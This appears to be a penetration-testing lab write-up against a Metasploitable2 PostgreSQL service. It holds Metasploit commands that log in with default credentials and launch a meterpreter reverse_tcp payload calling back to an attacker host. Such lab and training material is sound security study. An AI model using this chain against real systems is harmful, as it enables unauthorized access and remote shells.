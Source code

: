 # Exploiting PostgreSQL Database Service

PostgreSQL is a powerful, open-source relational database system widely used in various applications and environments. Instances of PostgreSQL can often be vulnerable due to default configurations, weak credentials, or known software vulnerabilities, potentially allowing unauthorized access to sensitive data or even remote code execution.

In this lab, we will explore methods to exploit the PostgreSQL service running on the Metasploitable2 target machine. Our objective is to gain unauthorized access to the database, which may lead to data exfiltration or system compromise.

We will begin by verifying the service and version with Nmap, then proceed to enumerate its users/credentials or search for specific exploits in Metasploit to gain access.

## 1. Network Configuration

* **Metasploitable2 (Target IP):** `192.168.100.10`
* **Kali Linux (Attacker IPs):**
    * `192.168.100.5` (for attacking Metasploitable2)
    * `172.24.129.21` (for SSH access)

## 2. Exploitation Steps

### 2.1: Service Enumeration (Nmap Scan)

* **Objective:** Confirm the presence and version of the PostgreSQL database service on the target machine, which typically runs on port 5432.

* **Command Executed:**
    ```bash
    sudo nmap -sV -p 5432 192.168.100.10
    ```

* **Results:**
    The Nmap scan confirmed that port `5432` was open on `192.168.100.10`. The service running on this port was identified as **PostgreSQL**, along with its version number, 8.3.0-8.3.7.

    ![PostgreSQL Nmap Scan Result](images/PostgreSQL_Scan.png) 

### 2.2: Metasploit Exploit / Auxiliary Search (or Credential Guessing)

* **Objective:** Launch Metasploit and search for available modules (exploits or auxiliary modules) related to PostgreSQL, or attempt to guess default/common credentials.

* **Commands Executed:**
    ```bash
    msfconsole
    search postgres
    ```

* **Results:**
The search identified several PostgreSQL-related modules, including scanners and exploits. Given the objective of gaining database access, the auxiliary/scanner/postgres/postgres_login module was chosen to attempt authentication using common default credentials, as this is a frequent vulnerability on test systems.

![Metasploit Search/Login Attempt](images/PostgreSQL_Search_Login.png)

### 2.3: Configure and Execute the Exploit / Auxiliary Module

* **Objective:** Configure the chosen Metasploit module (exploit or auxiliary) to target `192.168.100.10` and proceed with the attack.

* **Commands Executed:**
Select the module:

    ```bash
   use auxiliary/scanner/postgres/postgres_login
   set RHOSTS 192.168.100.10
   set USERNAME postgres
   set PASSWORD postgres
   show options
   run
   ```
    

* **Results:**
    The postgres_login module successfully authenticated to the PostgreSQL database using the default credentials postgres:postgres. The output Login Successful: postgres:postgres@template1 confirmed valid access.

    ![Exploit/Module Run Result](images/PostgreSQL_Exploit_Run.png)


### 2.4: Leveraging Authenticated Access for a Shell (PostgreSQL Payload)

* **Objective:** Utilize the obtained postgres:postgres credentials to execute a reverse shell payload on Metasploitable2 via the PostgreSQL service, aiming for a system shell.

* **Commands Executed:**
    ```bash
    use exploit/linux/postgres/postgres_payload
    set RHOSTS 192.168.100.10
    set PAYLOAD linux/x86/meterpreter/reverse_tcp  # Corrected payload
    set LHOST 192.168.100.5
    set LPORT 4445
    set USERNAME postgres
    set PASSWORD postgres
    show options
    exploit
    ```

* **Results:**
    Initially, the `cmd/unix/reverse` payload was attempted, but it was found to be incompatible with this specific exploit module, resulting in an "Exploit failed: cmd/unix/reverse is not a compatible payload" error. To resolve this, the `show payloads` command was used in Metasploit to list all compatible payloads for `exploit/linux/postgres/postgres_payload`.

    From the list of compatible payloads, `payload/linux/x86/meterpreter/reverse_tcp` was selected. This choice was based on the target system's architecture (Metasploitable2 is a 32-bit Linux system, indicated by `x86`) and the desire for a more robust and feature-rich Meterpreter session, which offers advanced post-exploitation capabilities compared to a basic command shell.

    Upon setting the correct payload and re-running the exploit, a Meterpreter session was successfully established:
   
    ![Exploit Run 2](images/Exploit_Payload.png) 